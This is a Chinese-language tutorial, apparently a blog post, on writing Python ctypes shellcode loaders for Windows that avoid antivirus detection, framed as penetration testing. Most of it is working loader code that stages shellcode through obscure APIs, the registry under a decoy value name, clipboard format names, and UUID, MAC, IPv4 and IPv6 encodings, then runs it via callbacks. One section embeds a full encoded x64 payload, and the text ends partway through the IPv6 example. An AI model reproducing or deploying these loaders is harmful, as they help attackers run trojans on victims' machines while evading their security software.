

# 渗透测试 & ShellCode加载器

## 前言

​	在渗透测试过程中，往往需要使用木马上线目标主机来达到持久化、便捷化控制目标主机的目的。`shellcode`由于其自身可塑性高，杀软查杀难度较高，因此通常将木马`shellcode`化后，再进行免杀处理。

## ShellCode

​	`shellcode`为`16`进制的机器码，是一种地址无关代码，可在暂存器`EIP`溢出后，塞入一段可以让`CPU`执行的恶意代码，从而执行攻击者的任何指令。这是因为，当`shellcode`被写入内存后，会被翻译成`CPU`指令。`CPU`自上而下执行这些指令，这其中有一个特殊的寄存器，`EIP`寄存器，它里面存放的值是`CPU`下次要执行的指令地址，因此可以通过修改`EIP`寄存器的值来执行`shellcode`。

## 初探ShellCode加载器

​	由于`shellcode`是一串可执行的二进制代码，因此需要通过开辟一块具有可读写、可执行的区域来利用它。这里利用`python`语言中的`ctypes`库来实现该过程。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
"""
import ctypes

shellcode = bytearray(b'')

# 使用restype函数设置VirtualAlloc返回类型为ctypes.c_unit64，否则默认的是32位
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

# 申请内存，调用kernel32.dll动态链接库中的VirtualAlloc函数申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),  # 指向要分配的区域的起始地址的指针，值为null时指向系统保留其认为合适的区域
    ctypes.c_int(len(shellcode)),  # 分配区域的大小
    ctypes.c_int(0x3000),  # 内存分配的类型
    ctypes.c_int(0x40),  # 要分配的页区域的内存保护，可读可写可执行
)

# 调用kernel32.dll动态链接库中的RtlMoveMemory函数将shellcode移动到申请的内存中
buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),  # 指向要将字节复制到的目标内存块的指针
    buffer,  # 指向要从中复制字节的源内存块的指针
    ctypes.c_int(len(shellcode))  # 从源复制到目标的字节数
)

# 创建一个线程从shellcode放置位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.pointer(ctypes.c_int(0)),  # 指向SECURITY_ATTRIBUTES结构的指针，线程安全属性
    ctypes.c_int(0),  # 堆栈的初始大小
    ctypes.c_void_p(ptr),  # 指向由线程执行的应用程序定义函数的指针
    ctypes.pointer(ctypes.c_int(0)),  # 指向要传递给线程的变量的指针
    ctypes.c_int(0),  # 控制线程创建的标志，为0表示创建后，线程会立即运行
    ctypes.pointer(ctypes.c_int(0))  # 指向接收线程标识符的变量的指针，如果此参数为NULL，则不返回线程标识符
)

# 等待创建线程运行完成
ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),  # 对象的句柄
    ctypes.c_int(-1)  # 超时间隔，以毫秒为单位，将其设为负数，等待时间将成为无限等待，程序就不会结束
)
```


​	这里补充一下`ctypes`库中`ctypes`类型对应的`C`类型和`Python`类型。


​	上文中通过调用`kernel32.dll`动态链接库中的`VirtualAlloc`函数申请一块可读可写可执行内存是最原始的方式，随着杀软的更迭已经变得无免杀能力，接着便出现了渐进式加载模式。在`shellcode`读入时，申请一个普通的可读写的内存页，然后再通过`VirtualProtect`来修改其属性为可执行。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
最原始的方式，利用VirtualAlloc申请一块可读可写可执行的内存页
"""
import ctypes

shellcode = bytearray(b'')
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),
    ctypes.c_int(len(shellcode)),
    ctypes.c_int(0x3000),
    ctypes.c_int(0x04),
)

buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.VirtualProtect(
    ptr,
    ctypes.c_int(len(shellcode)),
    0x40,
    ctypes.byref(ctypes.c_long(1))
)

ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buffer,
    ctypes.c_int(len(shellcode))
)

handle = ctypes.windll.kernel32.CreateThread(
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.c_void_p(ptr),
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```


## 探寻新的API

​	在上文的学习中可以看出，`shellcode`加载分为`3`步：申请内存->`shellcode`写入内存(-> 修改内存属性)->执行该内存。常用的一些函数基本都被杀软标记查杀了，因此寻找新的`API`来进行代替显得尤为重要。

### AllocADsMem+ReallocADsMem

- `AllocADsMem`：用于分配指定大小的内存块。

```c++
LPVOID AllocADsMem(
  [in] DWORD cb
);
```

- `ReallocADsMem`：用于重新分配并复制现有内存块。

```c++
LPVOID ReallocADsMem(
  [in] LPVOID pOldMem,
  [in] DWORD  cbOld,
  [in] DWORD  cbNew
);
```

​	`AllocADsMem`可以分配一个可读可写但不可执行的内存块；`ReallocADsMem`可以复制指定内容并新申请一块内存来进行存储，但是只能从内存中复制。所以利用思路为：先用`AllocADsMem`分配一个可读可写但不可执行的内存块，接着使用`ReallocADsMem`将`AllocADsMem`分配的内存块复制出来，再用`VirtualProtect`修改内存保护常量为可读可写可执行。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
AllocADsMem+ReallocADsMem+VirtualProtect
"""
import ctypes

shellcode = bytearray(b'')
ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc = ctypes.windll.Activeds.AllocADsMem(
    ctypes.c_int(len(shellcode))
)

ptr_realloc = ctypes.windll.Activeds.ReallocADsMem(
    ptr_alloc,
    len(shellcode),
    len(shellcode)
)

ctypes.windll.kernel32.VirtualProtect(
    ptr_realloc,
    ctypes.c_int(len(shellcode)),
    0x40,
    ctypes.byref(ctypes.c_long(1))
)

buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr_realloc),
    buffer,
    ctypes.c_int(len(shellcode))
)

handle = ctypes.windll.kernel32.CreateThread(
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.c_void_p(ptr_realloc),
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```


### RtlCopyMemory

​	在上文使用`AllocADsMem`+`ReallocADsMem`替换`VirtualAlloc`的基础上，利用`RtlCopyMemory`替换`RtlMoveMemory`，这里也可以用`ZwAllocateVirtualMemory`来进行代替，使用内核层面`Zw`系列的`API`来绕过杀软对应用层的监控，后文会利用该方式来构造`shellcode`构造器。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
AllocADsMem+ReallocADsMem+VirtualProtect+RtlCopyMemory
"""
import ctypes

shellcode = bytearray(b'')
ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc = ctypes.windll.Activeds.AllocADsMem(
    ctypes.c_int(len(shellcode))
)

ptr_realloc = ctypes.windll.Activeds.ReallocADsMem(
    ptr_alloc,
    len(shellcode),
    len(shellcode)
)

ctypes.windll.kernel32.VirtualProtect(
    ptr_realloc,
    ctypes.c_int(len(shellcode)),
    0x40,
    ctypes.byref(ctypes.c_long(1))
)

buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlCopyMemory(
    ctypes.c_uint64(ptr_realloc),
    buffer,
    ctypes.c_int(len(shellcode))
)

handle = ctypes.windll.kernel32.CreateThread(
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.c_void_p(ptr_realloc),
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```



### RegSetValueExA+RegQueryValueExA

- `RegQueryValueExA`：检索与打开的注册表项关联的指定值名称的类型和数据。

```c++
LSTATUS RegQueryValueExA(
  [in]                HKEY    hKey,
  [in, optional]      LPCSTR  lpValueName,
                      LPDWORD lpReserved,
  [out, optional]     LPDWORD lpType,
  [out, optional]     LPBYTE  lpData,
  [in, out, optional] LPDWORD lpcbData
);
```

- `RegSetValueExA`：设置注册表项下指定值的数据类型和类型。

```c++
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,
  [in, optional] LPCSTR     lpValueName,
                 DWORD      Reserved,
  [in]           DWORD      dwType,
  [in]           const BYTE *lpData,
  [in]           DWORD      cbData
);
```

​	利用思路：由于注册表可以存储二进制内容，利用`RegQueryValueExA`函数获取注册表中的内容，同时结合`RegSetValueExA`函数将`shellcode`写进注册表内容中，用`AllocADsMem`或者`ReallocADsMem`分配一块内存，将从注册表读取的内容存到分配的内存中去，然后执行即可。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
AllocADsMem+ReallocADsMem+VirtualProtect+RtlCopyMemory
"""
import ctypes
from ctypes.wintypes import *

shellcode = b''

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.POINTER(ctypes.c_byte)
ptr = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
ctypes.windll.Advapi32.RegSetValueExA(
    -2147483647,    # 打开的注册表项的句柄
    "360LogFilePath",   # 要设置的值的名称，如果键中尚不存在具有此名称的值，则函数会将其添加到键中
    None,   # 此参数是保留的，必须为零
    3,  # 要存储的数据所指向的数据类型，REG_BINARY的值为3
    shellcode,  # 要存储的数据
    len(shellcode)  # 要存储的数据所指向的信息的大小
)
# lpcbData是shellcode的长度，这里需要先执行一下RegQueryValueExA来获取一下shellcode长度，然后直接调用RegQueryValueExA来读申请的内存
data_len = DWORD()
ctypes.windll.Advapi32.RegQueryValueExA(
    -2147483647,    # 打开的注册表项的句柄
    "360LogFilePath",   # 注册表值的名称
    0,  # 此参数是保留的，必须为NULL
    0,  # 指向一个变量的指针，该变量接收一个代码，指示存储在指定值中的数据的类型，如果不需要类型代码，则可以为NULL
    0,  # 指向接收值数据的缓冲区的指针，如果不需要数据，此参数可以为NULL
    ctypes.byref(data_len)   # 指向一个变量的指针，该变量指定lpData参数指向的缓冲区的大小
)
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647, "360LogFilePath", 0, None, ptr, ctypes.byref(data_len))
# 将写入的注册表删除
ctypes.windll.Advapi32.RegDeleteValueA(-2147483647, "360LogFilePath")
ctypes.windll.kernel32.VirtualProtect(ptr, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, ctypes.pointer(ctypes.c_int(0)))
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))
```


### GetClipboardFormatName+RegisterClipboardFormat

​	该方式利用剪切板函数注册剪切板格式的方式来写入`shellcode`，所用到的`API`函数是`GetClipboardFormatName`和`RegisterClipboardFormatA`。

- `RegisterClipboardFormatA`：注册新的剪贴板格式，此格式可用作有效的剪贴板格式。

```c++
UINT RegisterClipboardFormatA(
  [in] LPCSTR lpszFormat
);
```

​	该函数需要传入一个参数，用于新格式的名称。

- `GetClipboardFormatNameA`：从剪贴板中检索指定注册格式的名称，并将名称复制到指定的缓冲区。

```c++
int GetClipboardFormatNameA(
  [in]  UINT  format,
  [out] LPSTR lpszFormatName,
  [in]  int   cchMaxCount
);
```

​	该函数需要传入三个参数，第一个参数用于指明要检索的格式类型，此参数不得指定任何预定义剪贴板格式；第二个参数用于指明要接收格式名称的缓冲区；第三个参数用于指明要复制到缓冲区的字符串的最大长度，需要注意，如果名称超出此限制，则会将其截断。

​	利用思路也很清晰了：利用`RegisterClipboardFormatA`函数将`shellcode`当作注册格式的名称，注册一个新的剪切板，然后利用`GetClipboardFormatNameA`函数获取剪切板格式的名称，即`shellcode`，并写入申请的内存当中去，这里需要注意`shellcode`中不能出现`\x00`字符，避免注册格式的名称被截断。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
GetClipboardFormatName+RegisterClipboardFormat
"""
import ctypes

buf = b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x96\x4d\x71\x7e\xfb"
buf += b"\x4f\x9f\x93\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x6a\x05\xf2\x9a\x0b\xa7\x5f\x93\x96"
buf += b"\x4d\x30\x2f\xba\x1f\xcd\xc2\xc0\x05\x40\xac\x9e"
buf += b"\x07\x14\xc1\xf6\x05\xfa\x2c\xe3\x07\x14\xc1\xb6"
buf += b"\x05\xfa\x0c\xab\x07\x90\x24\xdc\x07\x3c\x4f\x32"
buf += b"\x07\xae\x53\x3a\x71\x10\x02\xf9\x63\xbf\xd2\x57"
buf += b"\x84\x7c\x3f\xfa\x8e\x7d\x7e\xc4\x0c\x20\x36\x70"
buf += b"\x1d\xbf\x18\xd4\x71\x39\x7f\x2b\xc4\x1f\x1b\x96"
buf += b"\x4d\x71\x36\x7e\x8f\xeb\xf4\xde\x4c\xa1\x2e\x70"
buf += b"\x07\x87\xd7\x1d\x0d\x51\x37\xfa\x9f\x7c\xc5\xde"
buf += b"\xb2\xb8\x3f\x70\x7b\x17\xdb\x97\x9b\x3c\x4f\x32"
buf += b"\x07\xae\x53\x3a\x0c\xb0\xb7\xf6\x0e\x9e\x52\xae"
buf += b"\xad\x04\x8f\xb7\x4c\xd3\xb7\x9e\x08\x48\xaf\x8e"
buf += b"\x97\xc7\xd7\x1d\x0d\x55\x37\xfa\x9f\xf9\xd2\x1d"
buf += b"\x41\x39\x3a\x70\x0f\x83\xda\x97\x9d\x30\xf5\xff"
buf += b"\xc7\xd7\x92\x46\x0c\x29\x3f\xa3\x11\xc6\xc9\xd7"
buf += b"\x15\x30\x27\xba\x15\xd7\x10\x7a\x6d\x30\x2c\x04"
buf += b"\xaf\xc7\xd2\xcf\x17\x39\xf5\xe9\xa6\xc8\x6c\x69"
buf += b"\xb2\x2c\x36\x41\x4e\x9f\x93\x96\x4d\x71\x7e\xfb"
buf += b"\x07\x12\x1e\x97\x4c\x71\x7e\xba\xf5\xae\x18\xf9"
buf += b"\xca\x8e\xab\x40\xaf\x82\xb9\x9c\x0c\xcb\xd8\x6e"
buf += b"\xf2\x02\x6c\x43\x05\xf2\xba\xd3\x73\x99\xef\x9c"
buf += b"\xcd\x8a\x9e\x8e\x4a\x24\xd4\x85\x3f\x1e\x14\xfb"
buf += b"\x16\xde\x1a\x4c\xb2\xa4\x1d\x9a\x23\xfc\xbd\xf3"
buf += b"\x35\x14\x7e\xfb\x4f\x9f\x93"

# 申请内存
ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(buf)))
ctypes.windll.kernel32.VirtualProtect(ptr, ctypes.c_int(len(buf)), 0x40, ctypes.byref(ctypes.c_long(1)))
# 注册新的剪贴板格式
clipboard_name = ctypes.windll.user32.RegisterClipboardFormatW(buf)
# 从剪贴板中检索指定注册格式的名称，并将名称复制到指定的缓冲区
ctypes.windll.user32.GetClipboardFormatNameW(clipboard_name, ptr, len(buf))
# 回调函数调用shellcode
ctypes.windll.kernel32.EnumSystemLocalesW(ptr, 0)
```


### UUID内存加载

​	利用`UUID`向内存中写入`shellcode`的方式很早就已经出现了，在`Python`中`uuid.UUID`函数接受一个`16`个字节的`byte`，当剩余字节数不满`16`个可添加`\x00`补充字节数。下面来看看如何将`UUID`写入内存。

- `UuidFromStringA`：用于将字符串转换为`UUID`。

```c++
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

​	该`API`调用动态链接库`Rpcrt4`，需要传入两个参数，第一个是用于指向`UUID`字符串的指针，第二个用于指向内存中一块区域，`UUID`形式的`shellcode`转化成二进制后写入进该内存区域。

- `heapCreate`：用于创建可由调用进程使用的专用堆对象，该函数在进程的虚拟地址空间中保留空间，并为此块的指定初始部分分配物理存储。

```c++
HANDLE HeapCreate(
  [in] DWORD  flOptions,
  [in] SIZE_T dwInitialSize,
  [in] SIZE_T dwMaximumSize
);
```

​	该`API`需要传入三个参数，第一个参数用于设置堆分配选项，这里设置为`HEAP_CREATE_ENABLE_EXECUTE`，允许堆分配的所有内存块都能够执行代码；第二个参数用于设置堆的初始大小，当参数为`0`时，将提交一页，这里设置为`0`即可；第三个参数用于设置堆的最大大小，如果 `dwMaximumSize`不是零，堆大小是固定的，并且不能超出最大大小，如果`dwMaximumSize`为`0`，堆可以增大大小，这里也是设置为`0`即可。

- `ZwAllocateVirtualMemory`：`ZwAllocateVirtualMemory`例程在指定进程的用户模式虚拟地址空间中保留、提交或同时保留一个区域的页面。

```c++
NTSYSAPI NTSTATUS ZwAllocateVirtualMemory(
  [in]      HANDLE    ProcessHandle,
  [in, out] PVOID     *BaseAddress,
  [in]      ULONG_PTR ZeroBits,
  [in, out] PSIZE_T   RegionSize,
  [in]      ULONG     AllocationType,
  [in]      ULONG     Protect
);
```

​	该`API`需要传入六个参数，第一个参数用于设置执行映射的进程句柄，这里设置为`HeapCreate`返回的结果；第二个参数用于指向将接收已分配页面区域基址的变量的指针，如果此参数的初始值为`NULL`，操作系统将确定分配区域的位置，这里设置为`NULL`即可；第三个参数必须小于`21`，并且仅在操作系统确定分配区域的位置时使用，这里依旧设置为`NULL`即可；第四个参数用于指向将接收已分配页面区域的实际大小的变量的指针，注意申请内存的大小应为`len(shellcode)*16`；第五个参数用于指定要执行的分配类型的标志的位掩码，这里设置为`MEM_COMMIT`；第六个参数用于指定所提交页面区域所需的保护，这里设置为`PAGE_EXECUTE_READWRITE`。

​	最后采用`callback`的方式来触发执行内存中的`shellcode`，对于通过函数回调方式执行`shellcode`的`API`可以在项目`AlternativeShellcodeExec`中查看：https://github.com/aahmad097/AlternativeShellcodeExec。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
UUID内存加载（该版本未使用heapCreate+ZwAllocateVirtualMemory）
"""
import uuid
import ctypes

def UUIDConvert(shellcode):
    uuid_shellcode = []
    if len(shellcode) % 16 != 0:
        null_byte = b'\x00' * (16 - len(shellcode) % 16)
        shellcode += null_byte

    for i in range(0, len(shellcode), 16):
        uuid_string = str(uuid.UUID(bytes_le=shellcode[i: i + 16]))
        uuid_shellcode.append(uuid_string)
    return uuid_shellcode


shellcode = b''
uuid_shellcode = UUIDConvert(shellcode=shellcode)
print(uuid_shellcode)

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
ptr_realloc = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc, len(shellcode), len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr_realloc, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))

ptr = ptr_realloc
for code in uuid_shellcode:
    ctypes.windll.Rpcrt4.UuidFromStringA(code, ptr)
    ptr += 16

ctypes.windll.kernel32.EnumSystemLocalesW(ptr_realloc, 0)
```


### MAC内存加载

​	上文利用的是通过调用`API`函数来利用`UUID`向内存中写入`shellcode`，采用同样的思路，如果能找到某一种`API`函数实现了某种可逆的变形并且最终写入到二进制指针当中，那么也可以实现内存加载，这里找到了`RtlEthernetAddressToStringA`函数和`RtlEthernetStringToAddressA`函数。

- `RtlEthernetAddressToString`：`RtlEthernetAddressToString`函数将二进制以太网地址转换为以太网`MAC`地址的字符串表示形式。

```c++
NTSYSAPI PSTR RtlEthernetAddressToStringA(
  [in]  const DL_EUI48 *Addr,
  [out] PSTR           S
);
```

​	该`API`函数需要两个参数，第一个参数为二进制格式的以太网地址；第二个参数为指向缓冲区的指针，用于存储以太网地址的`NULL`终止字符串表示形式，且此缓冲区的大小应足以容纳至少`18`个字符。注意返回值为指向在以太网`MAC`地址的字符串表示形式末尾插入的`NULL`字符的指针。

- `RtlEthernetStringToAddressA`：`RtlEthernetStringToAddress`函数将以太网`MAC`地址的字符串表示形式转换为以太网地址的二进制格式。

```c++
NTSYSAPI NTSTATUS RtlEthernetStringToAddressA(
  [in]  PCSTR    S,
  [out] PCSTR    *Terminator,
  [out] DL_EUI48 *Addr
);
```

​	该`API`函数可以将前面转换的以太网`MAC`地址的字符串转换成`shellcode`，从而写进内存当中。该`API`函数需要三个参数，第一个参数为指向包含以太网`MAC`地址的`NULL`终止字符串表示形式的缓冲区的指针；第二个参数用于接收指向终止转换字符串的字符的指针；第三个参数为一个指针，存储以太网`MAC`地址的二进制表示形式。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
MAC内存加载
"""
import ctypes

shellcode = b''
if len(shellcode) % 16 != 0:
    null_byte = b'\x00' * (16 - len(shellcode) % 16)
    shellcode += null_byte

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc_1 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode) // 6 * 17))
ptr_realloc_1 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode) // 6 * 17, len(shellcode) // 6 * 17)
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_1, ctypes.c_int(len(shellcode) // 6 * 17), 0x40, ctypes.byref(ctypes.c_long(1)))

for i in range(len(shellcode) // 6):
    bytes_shellcode = shellcode[i * 6: 6 + i * 6]
    ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_shellcode, ptr_realloc_1 + i * 17)

mac_list = []
for i in range(len(shellcode) // 6):
    mac = ctypes.string_at(ptr_realloc_1 + i * 17, 17)
    mac_list.append(mac)
print(mac_list)

ptr_alloc_2 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(mac_list) * 6))
ptr_realloc_2 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(mac_list) * 6, len(mac_list) * 6)
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_2, ctypes.c_int(len(mac_list) * 6), 0x40, ctypes.byref(ctypes.c_long(1)))

rwxpage = ptr_realloc_2
for i in range(len(mac_list)):
    ctypes.windll.Ntdll.RtlEthernetStringToAddressA(mac_list[i], mac_list[i], rwxpage)
    rwxpage += 6

ctypes.windll.kernel32.EnumSystemLocalesW(ptr_realloc_2, 0)
```


### IPv4内存加载

​	和上文一样的思路，利用`IPV4`的方式实现内存加载，可以使用`ip2string.h`中的`API`函数，这里使用`RtlIpv4AddressToStringA`函数和`RtlIpv4StringToAddressA`函数。

- `RtlIpv4StringToAddressA`：`RtlIpv4StringToAddress`函数将`IPv4`地址的字符串表示形式转换为二进制`IPv4`地址。

```c++
NTSYSAPI NTSTATUS RtlIpv4StringToAddressA(
  [in]  PCWSTR  S,
  [in]  BOOLEAN Strict,
  [out] LPCWSTR *Terminator,
  [out] in_addr *Addr
);
```


- `RtlIpv4AddressToStringA`：`RtlIpv4AddressToString`函数将`IPv4`地址转换为`Internet`标准点十进制格式的字符串。

```c++
NTSYSAPI PWSTR RtlIpv4AddressToStringA(
  [in]  const in_addr *Addr,
  [out] PWSTR         S
);
```


```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
IPv4内存加载
"""
import ctypes

shellcode = b''
if len(shellcode) % 4 != 0:
    null_byte = b'\x00' * (4 - len(shellcode) % 4)
    shellcode += null_byte

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc_1 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode) // 4 * 16))
ptr_realloc_1 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode) // 4 * 16, len(shellcode) // 4 * 16)
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_1, ctypes.c_int(len(shellcode) // 4 * 16), 0x40, ctypes.byref(ctypes.c_long(1)))

for i in range(len(shellcode) // 4):
    bytes_shellcode = shellcode[i * 4: 4 + i * 4]
    ctypes.windll.Ntdll.RtlIpv4AddressToStringA(bytes_shellcode, ptr_realloc_1 + i * 16)

ipv4_list = []
for i in range(len(shellcode) // 4):
    ipv4 = ctypes.string_at(ptr_realloc_1 + i * 16, 16)
    ipv4_list.append(ipv4)
print(ipv4_list)

ptr_alloc_2 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
ptr_realloc_2 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode), len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_2, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))

rwxpage = ptr_realloc_2
for i in range(len(ipv4_list)):
    ctypes.windll.Ntdll.RtlIpv4StringToAddressA(ipv4_list[i], False, ipv4_list[i], rwxpage)
    rwxpage += 4

ctypes.windll.kernel32.EnumSystemLocalesW(ptr_realloc_2, 0)
```


### IPv6内存加载

依旧和上文一样，这里利用`IPV6`的方式实现内存加载，使用`RtlIpv6AddressToStringA`函数和`RtlIpv6StringToAddressA`函数。

- `RtlIpv6AddressToStringA`：`RtlIpv6AddressToString`函数以`Internet`标准格式将`IPv6`地址转换为字符串。

```c++
NTSYSAPI PSTR RtlIpv6AddressToStringA(
  [in]  const in6_addr *Addr,
  [out] PSTR           S
);
```


- `RtlIpv6StringToAddressA`：`RtlIpv6StringToAddress`函数将`IPv6`地址的字符串表示形式转换为二进制`IPv6`地址。

```c++
NTSYSAPI NTSTATUS RtlIpv6StringToAddressA(
  [in]  PCSTR    S,
  [out] PCSTR    *Terminator,
  [out] in6_addr *Addr
);
```


```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
IPv6内存加载
"""
import ctypes

shellcode = b''
if len(shellcode) % 16 != 0:
    null_byte = b'\x00' * (16 - len(shellcode) % 16)
    shellcode += null_byte

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc_1 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode) // 16 * 40))
ptr_realloc_1 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode) // 16 * 40, len(shellcode) // 16 * 40)
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_1, ctypes.c_int(len(shellcode) // 16 * 40), 0x40, ctypes.byref(ctypes.c_long(1)))

for i in range(len(shellcode) // 16):
    bytes_shellcode = shellcode[i * 16: 16 + i * 16]
    ctypes.windll.Ntdll.RtlIpv6AddressToStringA(bytes_shellcode, ptr_realloc_1 + i * 40)

ipv6_list = []
for i in range(len(shellcode) // 16):
    ipv6 = ctypes.string_at(ptr_realloc_1 + i * 40, 40)
    ipv6_list.append(ipv6)
print(ipv6_list)

ptr_alloc_2 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
ptr_realloc_2 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode), len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_2, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))

